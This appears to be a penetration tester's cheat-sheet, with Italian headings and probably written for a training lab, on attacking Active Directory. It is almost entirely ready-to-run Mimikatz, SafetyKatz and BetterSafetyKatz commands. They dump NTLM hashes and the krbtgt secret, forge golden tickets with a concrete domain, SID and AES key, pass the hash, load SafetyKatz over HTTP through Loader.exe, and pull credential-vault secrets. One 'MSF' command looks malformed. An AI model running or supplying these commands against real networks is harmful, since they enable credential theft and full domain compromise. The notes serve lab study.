 ### **ASSICURATI CHE STIA RUNNANDO COME PRIVILEGED**
```powershell
privilege::debug
```
### **DUMPA LE NTLM HASH**
```powershell
lsadump::lsa /patch
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
### **GOLDEN TICKET**
Crei un ticket per poter loggare quando vuoi
```MSF
golden_ticket_create //MSF
```
```MSF
lsadump::lsa /inject /name:krbtgt
```
per creare il golden ticket
```MSF
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Extract Credentials**
Use loader.exe
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

### **Extract from credential vault**
```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### **Extract from credential vault**

Just use BetterSafetyKatz
```powershell
> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21- 719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```